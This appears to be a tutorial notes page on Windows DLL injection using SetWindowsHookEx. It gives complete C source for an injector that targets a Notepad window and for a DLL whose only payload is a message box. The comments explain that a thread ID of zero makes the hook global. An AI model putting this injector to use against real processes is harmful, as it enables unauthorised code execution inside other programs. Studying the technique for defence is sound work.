

# SetWindowsHookEx DLL Injection
•
https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks#installing-and-releasing-hook-procedures - READ THIS
•
https://resources.infosecinstitute.com/topic/using-setwindowshookex-for-dll-injection-on-windows/ (sucks)
•
http://www.rohitab.com/discuss/topic/43926-setwindowshookex-dll-injection-my-code-and-some-questions/SetWindowsHookEx is how you set global and process-specific hooks using the Windows API.
Typically, you provide a hook procedure within a DLL and then call SetWindowsHookEx in a hook installer program to install the hook into the target process.
When SetWindowsHookEx is called, it will load the specified DLL into the target process.
Internally, it calls
LoadLibrary.
As a result, you can inject DLLs into target processes using SetWindowsHookEx.
To avoid hooking anything, you can just create an empty hook procedure in your DLL
e.g.
__declspec(dllexport) LRESULT CALLBACK HookMe(int nCode, WPARAM wParam, LPARAM lParam)
{
// do nothing
return CallNextHookEx(NULL, nCode, wParam, lParam);
}
## Issues
• Because SetWindowsHookEx calls LoadLibrary internally, it's not stealthy. Detection will catch this
## Demo & Code
This demo is running on Windows 10 x64 2004.
Both the DLL and injector code below is compiled as x64 release.
I'm injecting into a 64bit
Notepad process.
I've run my injector.
It has:
• found the target process
• loaded our DLL
• found its HookMe function
• set a hook on that function
• and triggered the hook by sending a NULL message to the target process
◇ this causes the DLL to attach to the target
### injector.exe
This code injects the DLL into the target process.
The target process is specified by the
target_tid in the
SetWindowsHookEx call.
/*
Hook installer that targets a Notepad window.
*/
#include <stdio.h>
#include <Windows.h>
BOOL InjectDLL(void)
{
BOOL okay = TRUE;
BOOL b_ret = FALSE;
HWND h_target_wnd = NULL;
DWORD target_pid = 0;
DWORD target_tid = 0;
HMODULE hmod_dll = NULL;
HHOOK h_hook = NULL;
char target_window_name[] = "Untitled - Notepad";
char dll_path[] = "C:\\Users\\bob\\source\\example_code\\injection\\dll_injection\\SetWindowsHookEx_injection\\dll_hook\\x64\\Release\\dll_hook.dll";
char hook_function[] = "HookMe";
HOOKPROC hook_function_addr = NULL;
// get process ID and thread ID of target process
h_target_wnd = FindWindowA(NULL, target_window_name);
if (h_target_wnd == NULL)
{
printf("failed to find window \"%s\": %d \n", target_window_name, GetLastError());
okay = FALSE;
return okay;
}
printf("[+] found target process: %s \n", target_window_name);
target_tid = GetWindowThreadProcessId(h_target_wnd, &target_pid);
// load DLL to inject
hmod_dll = LoadLibraryA(dll_path);
if (hmod_dll == NULL)
{
printf("failed to load DLL: %d \n", GetLastError());
okay = FALSE;
return okay;
}
printf("[+] loaded DLL \n");
// retrieve address of exported hook function in DLL
hook_function_addr = (HOOKPROC)GetProcAddress(hmod_dll, hook_function);
if (hook_function_addr == NULL)
{
printf("failed to find addr of exported HookMe function: %d \n", GetLastError());
okay = FALSE;
return okay;
}
printf("[+] found %s function @ 0x%p \n", hook_function, hook_function_addr);
/*
Install the hook in the target process - this will cause our DLL to be loaded into the target process.
If SetWindowHookEx's dwThreadId is set to 0, this hook will be global and SetWindowsHookEx will inject your DLL into all processes.
*/
h_hook = SetWindowsHookExA(WH_GETMESSAGE, hook_function_addr, hmod_dll, target_tid);
if (h_hook == NULL)
{
printf("failed to set hook: %d \n", GetLastError());
okay = FALSE;
return okay;
}
printf("[+] set hook \n");
// trigger the hook by sending an empty message (not always necessary)
//PostThreadMessage(target_tid, WM_NULL, 0, 0);
//printf("[i] triggering hook... \n");
// pause execution of this hook installer program. upon key press, remove hook
printf("\npress any key to unhook \n");
system("pause > nul");
b_ret = UnhookWindowsHookEx(h_hook);
if (b_ret == FALSE)
{
printf("failed to remove hook: %d \n", GetLastError());
okay = FALSE;
return okay;
}
printf("[+] hook removed! \n");
return okay;
}
int main(void)
{
InjectDLL();
return 0;
}
### injectme_dll.dll
This is the DLL to inject.
It has an exported function called
HookMe which is used to set the hook / inject.
It spawns a MessageBox when the DLL is attached.
#include <Windows.h>
__declspec(dllexport) LRESULT CALLBACK HookMe(int nCode, WPARAM wParam, LPARAM lParam)
{
return CallNextHookEx(NULL, nCode, wParam, lParam);
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
switch (fdwReason)
{
case DLL_PROCESS_ATTACH:
MessageBoxA(NULL, "hey! i've been attached :)", "smile", MB_OK);
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}